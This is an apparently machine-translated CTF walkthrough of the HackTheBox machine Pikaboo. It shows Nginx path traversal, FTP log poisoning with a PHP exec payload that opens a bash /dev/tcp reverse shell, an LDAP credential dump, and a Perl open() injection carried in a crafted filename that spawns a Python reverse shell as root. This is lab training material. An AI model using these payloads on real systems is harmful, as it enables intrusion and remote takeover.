# 黑客盒子里的皮卡布——详细演练

> 原文：<https://infosecwriteups.com/pikaboo-from-hackthebox-detailed-walkthrough-f66ef4586f31?source=collection_archive---------2----------------------->

展示完成盒子所需的所有工具和技术。

# 机器信息


黑客盒子皮卡布

Pikaboo 是 HackTheBox 上的硬机。我们最初的扫描只发现三个开放的端口，web 服务器是我们的起点。我们发现了一个本地文件漏洞，它允许我们访问一个管理区域，从那里我们模糊并找到一个日志文件。我们使用文件中毒来实现远程代码执行，给我们一个反向外壳。我们的 root 路径包括 perl 脚本、cronjobs、ldap 扫描，最终找到 ftp 服务器的凭证。在那里，我们利用一个漏洞，通过利用一个写得很差的脚本来获得一个反向根外壳。

所需技能是良好的网络和操作系统枚举知识。学到的技能是研究利用和有条不紊地测试，以找到一个工作的前进方向。

[](https://www.hackthebox.eu/home/machines/profile/360) [## 侵入测试实验室

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.eu](https://www.hackthebox.eu/home/machines/profile/360) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



Nmap 扫描输出

我们只有三个开放的港口。首先，将服务器 IP 添加到我们主机的文件中:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# echo "10.10.10.249 pikaboo.htb" >> /etc/hosts
```

现在看看端口 80 上的网站:



皮卡布网站

这是一个有趣的静态网站:



皮卡布生物

主页面上没有任何值得注意的东西，但是点击管理链接会把我们带到一个登录框。如果我们取消它，我们会在这里结束:



未经授权的重定向

这是因为我们的 Nmap 扫描只发现 Nginx 在端口 80 上运行，但这里我们有 Apache 在端口 81 上运行。localhost IP 127 . 0 . 0 . 1 告诉我们，当访问此页面时，我们正在本地通过端口 80 到 81 的机器。

一些搜索发现[这个](https://book.hacktricks.xyz/pentesting/pentesting-web/nginx)来自 Hacktricks，它解释了一个本地文件漏洞，允许我们读取 webroot 之外的文件。

让我们用它扫描一下，看看有没有什么有用的东西:



Gobuster 扫描有用的文件

我们在 Apache docs 网站上找到一个服务器状态页面，这里有详细的[信息](https://httpd.apache.org/docs/2.4/mod/mod_status.html)，我们可以看到这很有趣。让我们来看看:



服务器状态输出

我们找到服务器信息，在底部，我们有一个正在运行的进程列表:



服务器状态进程列表

在该列表中，我们会看到另一个名为 admin_staging 的页面，访问该页面时，我们会看到一个控制面板:



管理仪表板

这里没什么特别的，但有一点需要注意，当我们浏览时，URL 会发生变化:

```
http://pikaboo.htb/admin../admin_staging/index.php?page=user.php
http://pikaboo.htb/admin../admin_staging/index.php?page=tables.php
http://pikaboo.htb/admin../admin_staging/index.php?page=typography.php
```

我们可以模糊 page=参数，看看是否还有其他页面没有找到。Hacktricks 有一个很好的指南[在这里](https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz)我们可以使用:



隐藏文件的 wfuzz

经过几次迭代，我想到了上面的限制输出，所以我们只是做了一些有用的事情。vsftpd.log 文件几乎肯定与我们之前在 Nmap 扫描中发现的 FTP 服务器有关。

让我们来看看:



vsftpd 注销

我们已经检索了 FTP 日志文件，其中显示了用户名 pwnmeow。经过一段时间的观察，我发现了一个漏洞，并找到了这个包含文件的方法。更多信息[在这里](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d)和[在这里](https://secnhack.in/ftp-log-poisoning-through-lfi/)帮助我想出下一步行动。

我们可以连接到 FTP 服务器，并使用所描述的方法来执行任意代码。首先，让我们测试我们的理论:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): <?php exec("/bin/bash -c 'ping -c 4 10.10.14.43'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> quit
221 Goodbye.
```

这已将我们的代码放入 FTP 日志文件中，现在我们需要读取日志以使其被执行:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```

切换到另一个终端，使用 tcpdump 监听 ping:



从框中 Ping 回

我们捕获来自机器的 ping，这证明我们成功地执行了代码。让我们试着得到一个反向的 shell，我用了一个来自 [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 的简单 shell:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): <?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.43/1337 0>&1'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> quit
221 Goodbye.
```

我们的代码放在日志中，现在读取它来执行:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```

切换到等待中的 Netcat 监听器，查看我们是否已连接:

```
┌──(root💀kali)-[~]
└─# nc -lvvp 1337
listening on [any] 1337 ...
connect to [10.10.14.43] from pikaboo.htb [10.10.10.249] 55792
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@pikaboo:/var/www/html/admin_staging$
```

让我们先获取用户标志:

```
www-data@pikaboo:/var/www/html/admin_staging$ ls -l /home
drwxr-xr-x 2 pwnmeow pwnmeow 569344 Jul  6 20:02 pwnmeow

www-data@pikaboo:/var/www/html/admin_staging$ ls -l /home/pwnmeow
-r--r----- 1 pwnmeow www-data 33 Nov 12 21:55 user.txt

www-data@pikaboo:/var/www/html/admin_staging$ cat /home/pwnmeow/user.txt
<HIDDEN>
```

我花了相当多的时间四处查看，当我进入系统 crontab 时，我注意到一些有趣的事情:



crontab 的内容

最后一行以 root 用户身份每分钟运行一次 csvupdate_cron 作业。让我们来看看:

```
www-data@pikaboo:/$ cat /usr/local/bin/csvupdate_cron
cat /usr/local/bin/csvupdate_cron
#!/bin/bash

for d in /srv/ftp/*
do
  cd $d
  /usr/local/bin/csvupdate $(basename $d) *csv
  /usr/bin/rm -rf *
done
```

我们看到，job 循环遍历/srv/ftp 文件夹中的所有文件，对于每个文件，它都运行脚本 csvupdate，将文件名作为参数。

查看 csvupdate 脚本，我们会发现一个很长的 Perl 脚本:

```
www-data@pikaboo:/$ cat /usr/local/bin/csvupdate
#!/usr/bin/perl
##################################################################
# Script for upgrading PokeAPI CSV files with FTP-uploaded data. #
#                                                                #
# Usage:                                                         #
# ./csvupdate <type> <file(s)>                                   #
#                                                                #
# Arguments:                                                     #
# - type: PokeAPI CSV file type                                  #
#         (must have the correct number of fields)               #
# - file(s): list of files containing CSV data                   #
##################################################################

use strict;
use warnings;
use Text::CSV;

my $csv_dir = "/opt/pokeapi/data/v2/csv";
```

描述告诉我们它是用来升级数据的，进一步看内容，我们会在最后看到这一部分:

```
my $csv = Text::CSV->new({ sep_char => ',' });
my $fname = "${csv_dir}/${type}.csv";
open(my $fh, ">>", $fname) or die "Unable to open CSV target file.\n";
```

这看起来像是接受文件名，检查它的结尾。csv，然后使用打开命令。我不知道现在去哪里，所以继续进一步列举文件系统。

当我查看套接字时，我看到 LDAP 在端口 389 上侦听 127.0.0.1:

```
www-data@pikaboo:/var/www/html/admin_staging$ ss -tln
ss -tln
State     Recv-Q    Send-Q     Local Address:Port       Peer Address:Port    
LISTEN    0         128              0.0.0.0:80         0.0.0.0:*       
LISTEN    0         128            127.0.0.1:81         0.0.0.0:*       
LISTEN    0         128              0.0.0.0:22         0.0.0.0:*       
LISTEN    0         128            127.0.0.1:389        0.0.0.0:*       
LISTEN    0         128                 [::]:80            [::]:*       
LISTEN    0         32                     *:21               *:*       
LISTEN    0         128                 [::]:22            [::]:*
```

另一个内部系统，一定是用来做什么的。再次回头看看，我找到了一些 pokeapi 的配置文件:

```
www-data@pikaboo:/$ ls -l /opt/pokeapi/config
-rwxr-xr-x 1 root root    0 Jul  6 20:17 __init__.py
drwxr-xr-x 2 root root 4096 Jul  6 16:10 __pycache__
-rw-r--r-- 1 root root  783 Jul  6 20:17 docker-compose.py
-rwxr-xr-x 1 root root  548 Jul  6 20:17 docker.py
-rwxr-xr-x 1 root root  314 Jul  6 20:17 local.py
-rwxr-xr-x 1 root root 3080 Jul  6 20:17 settings.py
-rwxr-xr-x 1 root root  181 Jul  6 20:17 urls.py
-rwxr-xr-x 1 root root 1408 Jul  6 20:17 wsgi.py
```

设置文件很有用:

```
www-data@pikaboo:/$ cat /opt/pokeapi/config/settings.py
<SNIP>
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "<HIDDEN>",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
```

我们看到一个包含凭据的 LDAP 部分，在框中可以看到 ldapsearch。使用[这个](https://docs.oracle.com/cd/E19693-01/819-0997/auto45/index.html)有用的文档，我找到了这一部分:

```
Returning All Entries
Given the previous information, the following call will return all entries in the directory:

ldapsearch -h myServer -p 5201 -D cn=admin,cn=Administrators,cn=config
 -b "dc=example,dc=com" -s sub "(objectclass=*)"
"(objectclass=*)" is a search filter that matches any ent
```

我将它与我们刚刚找到的 creds 一起使用，以转储所有 LDAP 条目:



Ldapsearch 转储所有条目

输出很长，但这部分正是我想要的:

```
# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: <HIDDEN>
```

该密码显然是 base64 编码的，因为它在末尾有一个指示符 double ==:

```
www-data@pikaboo:/$ echo "<HIDDEN>" | base64 -d
echo "<HIDDEN>" | base64 -d
<HIDDEN>
```

解码给了我们一个明文密码。让我们尝试使用这些凭据进行 ftp 登录:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/" is the current directory
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx-wx---    2 ftp  ftp  4096 Nov 13 08:47 abilities
drwx-wx---    2 ftp  ftp   4096 May 20 07:01 ability_changelog
drwx-wx---    2 ftp  ftp  4096 May 20 07:01 ability_changelog_prose
drwx-wx---    2 ftp  ftp  4096 May 20 07:01 ability_flavor_text
drwx-wx---    2 ftp  ftp  4096 May 20 07:01 ability_names
```

不出所料，它成功了，我们成功了。没什么可看的，这让我困惑了很长时间。最后，我回头看了看我们找到的 Perl 脚本，围绕它使用的 open 命令搜索了一些漏洞，得到了大量信息:

[https://cheat sheet . haax . fr/Linux-systems/programming-languages/perl](https://cheatsheet.haax.fr/linux-systems/programing-languages/perl/)[https://stack overflow . com/questions/26614348/perl-open-injection-prevention](https://stackoverflow.com/questions/26614348/perl-open-injection-prevention)[https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId = 88890543](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543)[https://research . cs . wisc . edu/mist/software security course/Chapters/3 _ 8 _ 2-Command-injections . pdf](https://research.cs.wisc.edu/mist/SoftwareSecurityCourse/Chapters/3_8_2-Command-Injections.pdf)https://perl-begin . org/topics/security/code-markup-injection

经过大量的阅读和反复试验，我发现我们可以通过上传一个文件并重命名它来利用 csvupdate Perl 脚本，这样开始的字符就是一个管道。然后我们就可以执行它之后的任何代码。

我尝试了一个经典的 Pentestmonkey [Python 反向 shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 没有成功。不过，在其他盒子上使用的一个更简单的方法确实有效。

为了利用这一点，我们需要我们的文件在通过 ftp 上传后被命名为 this:

```
"|python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.239\",1338));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([""\"sh\",""\"-i\"])';.csv"
```

请注意，第一个字符是，然后执行后面的代码。这将使用 Python 在 Kali 上为我们打开外壳。还可以看到，我不得不做了一些额外的反斜杠，以确保特殊字符得到正确处理。

将命令更改为 Kali tun0 IP 和端口后，我们只需将它作为 put 命令的一部分粘贴进来。首次登录 FTP:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

从根文件夹转到另一个文件夹，因为我们在那里没有权限:

```
ftp> cd versions
250 Directory successfully changed.
```

使用 put 命令，我们需要一个本地文件上传到这里，我刚刚创建了一个名为 test 的空白文件。然后，我们将上面的命令粘贴到末尾:

```
ftp> put test "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.239\",1338));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"sh\")';.csv"local: test remote: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.239",1338));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';.csv200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp>
```

上传时，名为 test 的文件被重命名为我们的有效负载。现在切换到一个等待中的 Netcat 监听器，看看我们有一个反向 shell 作为 root 连接:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# nc -lvvp 1338
listening on [any] 1338 ...
connect to [10.10.14.239] from pikaboo.htb [10.10.10.249] 52370
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

你必须等待脚本运行，这是每分钟，所以不会花很长时间。现在我们终于可以得到根标志了:

```
# ls /root
root.txt  vsftpd.log

# cat /root/root.txt
<HIDDEN>
```

对我来说，这真的是一个很难的盒子，但从中吸取一些有益的教训是非常值得的。

完成了。下次见。

如果你喜欢这篇文章，请给我一两个掌声。

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2021 年 12 月 3 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-pikaboo/)*。*